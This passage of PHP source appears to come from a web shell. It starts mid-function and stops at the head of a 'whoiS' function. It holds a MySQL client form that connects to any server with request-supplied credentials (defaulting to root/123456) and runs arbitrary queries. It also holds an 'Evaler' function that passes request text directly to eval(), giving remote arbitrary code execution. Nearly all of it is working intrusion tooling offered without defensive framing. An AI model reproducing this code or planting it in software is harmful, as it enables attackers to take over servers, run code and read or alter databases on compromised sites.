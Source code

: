 global $t,$errorbox,$et,$hcwd;
if (!empty($_REQUEST['serveR']) && !empty($_REQUEST['useR']) && !empty($_REQUEST['pasS']) && !empty($_REQUEST['querY'])){
$server=$_REQUEST['serveR'];$pass=$_REQUEST['pasS'];$user=$_REQUEST['useR'];$query=$_REQUEST['querY'];
if(!empty($_REQUEST['dB']))$db=$_REQUEST['dB'];
$link = @mysql_connect($server,$user,$pass);
if($link){
if (!empty($db))mysql_select_db($db);
$result=mysql_query($query,$link);
echo "${t}Query result(s):$et";
echo "&lt;font color=blue&gt;&lt;pre&gt;";
while($data=mysql_fetch_row($result)){
foreach($data as $v) {
echo $v;
echo "\t";
}
echo "\n";
}
echo "&lt;/pre&gt;&lt;/font&gt;";
mysql_close($link);
}
else{
echo "$errorbox Login failed!$et&lt;br&gt;";
}
}
echo "&lt;center&gt;${t}MySQL cilent:&lt;/td&gt;&lt;td bgcolor=\"#333333\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=\"POST\"&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Server:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text value=\"";if (!empty($_REQUEST['server'])) echo htmlspecialchars($_REQUEST['server']);else echo "localhost:3306"; echo "\" name=serveR size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;Username:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=text name=useR value=\"";if (!empty($_REQUEST['user'])) echo htmlspecialchars($_REQUEST['user']);else echo "root"; echo "\" size=35&gt;&lt;/td&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Password:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text value=\"";if (!empty($_REQUEST['pass'])) echo htmlspecialchars($_REQUEST['pass']);else echo "123456"; echo "\" name=pasS size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;Database:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=text value=\"";if (!empty($_REQUEST['db'])) echo htmlspecialchars($_REQUEST['db']); echo "\" name=dB size=35&gt;&lt;/td&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Query:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;textarea name=querY rows=5 cols=27&gt;";if (!empty($_REQUEST['query'])) echo htmlspecialchars(($_REQUEST['query']));else echo "SHOW DATABASES"; echo "&lt;/textarea&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#808080\" align=right&gt;$hcwd&lt;input class=buttons type=submit value=\"Submit Query\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;";
}
function phpevaL(){
global $t,$hcwd;
if (!empty($_REQUEST['code'])){
echo "&lt;center&gt;&lt;textarea rows=\"10\" cols=\"64\"&gt;";
$code = str_replace("&lt;?php","",$_REQUEST['code']);
$code = str_replace("&lt;?","",$code);
$code = str_replace("?&gt;","",$code);
htmlspecialchars(eval($code));
echo "&lt;/textarea&gt;&lt;/center&gt;&lt;br&gt;";
}
echo "&lt;center&gt;${t}Evaler:&lt;/td&gt;&lt;td bgcolor=\"#333333\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=\"POST\"&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Codes:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;textarea rows=\"10\" name=\"code\" cols=\"64\"&gt;";if(!empty($_REQUEST['code']))echo htmlspecialchars($_REQUEST['code']);echo "&lt;/textarea&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#666666\" align=right&gt;$hcwd&lt;input class=buttons type=submit value=Execute&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;";
}
function whoiS(){